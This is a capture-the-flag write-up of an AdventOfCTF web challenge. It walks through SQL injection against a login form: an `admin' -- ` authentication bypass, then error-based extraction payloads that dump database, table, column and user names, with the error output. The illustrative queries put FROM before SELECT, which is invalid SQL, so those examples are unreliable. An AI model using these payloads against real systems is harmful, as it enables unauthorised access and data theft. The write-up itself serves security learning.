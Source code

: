 +++
author = "Maik de Kruif"
title = "Challenge 5 - AdventOfCTF"
date = 2020-12-05T08:57:31+01:00
description = "A writeup for challenge 5 of AdventOfCTF."
cover = "img/adventofctf/2020/080b5d5fcaf13167d2e7e8871fdc8ded.png"
tags = [
    "AdventOfCTF",
    "challenge",
    "ctf",
    "hacking",
    "writeup",
    "web",
    "sql-injection",
]
categories = [
    "ctf",
    "writeups",
    "hacking",
]
+++

- Points: 500

## Description

Again a login form stands in your way. What powerful 'hacker' tool will help you proceed?

Visit <https://05.adventofctf.com> to start the challenge.

## Finding the vulnerability

Upon opening the challenge website, we're, yet again, greeted with a login form. As the last few challenges used javascript I immediately opened the devtools to have a look at the sources. But, no javascript! This time it looks like the form is actually submitted. Below the form there is also some text: "A classic, with a twist.". When talking about forms, a classic exploit is SQL Injection. So let's try that.

### SQL Injection

My first try was to submit a quote `'` as the username and some garbage password. This is a common check for SQLi and if it works it throws an error:

```text
Error description: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'sd'' at line 1
```

But how does this work in the first place?

#### Background

When a login form on a website is submitted, the website often connects to a database to check the login credentials. On most website this database is a SQL database.

Here's an example of a query to check login credentials:

```sql
FROM `users` SELECT * WHERE `username`='' AND `password`=''
```

_Note: the backticks (\`) mean the content of it is a column in the database._

The username and password values are inserted in this query and if there is a result, the database will return it.

#### Vulnerability

Now that we know how it works, we can try to exploit it. Take my first input for example (`'`) and see what the resulting query would be.

```sql
FROM `users` SELECT * WHERE `username`=''' AND `password`='garbage'
```

The query becomes invalid as there is an unterminated string. So, how do we turn this query into one that logs us in as the admin?

## Solution

Firstly, I tried to use `' OR 1=1 -- ` as the username and, again, some garbage as the password. However, it didn't work. It didn't even return an error. So I guess this is where "A classic, with a twist." comes in. Next, I tried to just use `admin` as the username and end the query after it by inserting a comment (this is `--` in sql). The resulting input would become `admin' -- ` for the username, the password doesn't matter.

The resulting query would be this:

```sql
FROM `users` SELECT * WHERE `username`='admin' -- ' AND `password`='garbage'
```

As we can see, it now only checks the username. I submitted the form and, I got the flag! It is `NOVI{th3_classics_with_a_7wis7}`

This flag can then be submitted for the [challenge](https://ctfd.adventofctf.com/challenges#5-6).

## EDIT

As [@credmp](https://twitter.com/credmp) correctly pointed out, this only works if you can guess the username. If you can't, you'll have to get it first. I'll explain how to do that here.

### Getting the database

As we can see the error on the page itself, we can use a query to give a result inside the error. For instance, to get the database I used the following input: `' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT((SELECT database()),0x3a,FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y) -- `. This results into the following query:

```sql
FROM `users` SELECT * WHERE `username`='' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT database()), 0x3a, FLOOR(RAND(0)*2)) as x FROM information_schema.tables GROUP BY x) as y) -- ' AND `password`=''
```

After submitting the form it gives us the following error:

```text
Error description: Duplicate entry 'testdb:1' for key 'group_key'
```

#### How does this work?

Firstly, I'll format the query for you:

```sql
FROM `users`
SELECT *
WHERE `username`='' AND (
  SELECT 1 FROM (
    SELECT COUNT(*), CONCAT(
      (
        SELECT database()
      ),
      0x3a,
      FLOOR(RAND(0)*2)
    ) AS x
    FROM information_schema.tables GROUP BY x
  ) AS y) -- ' AND `password`=''
```

Now let me explain this query.

We start with an `AND` to get another value, which is a nested SQL query. This query selects `1`, this is just because we actually need a value. Now we get to the important bit:

```sql
SELECT COUNT(*), CONCAT(
  (
    SELECT database()
  ),
  0x3a,
  FLOOR(RAND(0)*2)
) AS x
FROM information_schema.tables GROUP BY x
```

Here, we select `COUNT(*)` and a string `CONCAT()` with the alias `x`. This `CONCAT()` contains the SQL query we actually want to execute. I can, however, only return one row. The `CONCAT()` also contains `0x3a` which is ASCII for a `:` character so we know where the value we want ends and `FLOOR(RAND(0)*2)`. The purpose of it is to get a duplicate entry error in the `GROUP BY` as it will result in the following values:

```sql
> SELECT FLOOR(RAND(0)*2)x FROM information_schema.tables;
+---+
| x |
+---+
| 0 |
| 1 |
| 1 | <-- The error will occur here.
| 0 |
| 1 |
| 1 |
 ...
```

The error really occurs because of a bug in MySQL. The `COUNT(*)` and `GROUP BY` should give multiple rows as the output, however, MySQL throws an error.

The `FROM` in this query can be any table with three or more rows. `information_schema.tables` is just a common one.

Now we know the name of the database (`testdb`), we can get the tables in it.

### Getting the tables

We can only get the tables one by one (as I explained above) so we can use the following sub-query:

```sql
SELECT table_name FROM information_schema.tables WHERE table_schema='testdb' LIMIT 0,1
```

Converted to an input we get `' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT((SELECT table_name FROM information_schema.tables WHERE table_schema='testdb' LIMIT 0,1),0x3a,FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y) -- `

_Note: to get next table, just edit the `LIMIT` to `1,1`, `2,1` and so on_

Which returns:

```text
Error description: Duplicate entry 'users:1' for key 'group_key'
```

Now that we know the table (`users`), we can get it's columns

### Getting the columns

A sub-query for columns could be the following:

```sql
SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 0,1
```

Which converts to this input: `' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT((SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 0,1),0x3a,FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y) -- `

Which gives us (with other `LIMIT` as well):

```text
Error description: Duplicate entry 'USER:1' for key 'group_key'
Error description: Duplicate entry 'CURRENT_CONNECTIONS:1' for key 'group_key'
Error description: Duplicate entry 'TOTAL_CONNECTIONS:1' for key 'group_key'
Error description: Duplicate entry 'username:1' for key 'group_key'
Error description: Duplicate entry 'password:1' for key 'group_key'
```

The first three we can just ignore as they are default metrics from MySQL. So our resulting columns would be `username` and `password`

### Getting its contents

Because we only care for the username, we can discard the password.

A simple `SELECT` query for the username would be:

```sql
SELECT username from users limit 0,1
```

Turing this into an input we get `' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT((SELECT username from users limit 0,1),0x3a,FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y) -- `

We get:

```text
Error description: Duplicate entry 'nottheuser:1' for key 'group_key'
Error description: Duplicate entry 'admin:1' for key 'group_key'
```

Which means our users are `nottheuser` and `admin`.
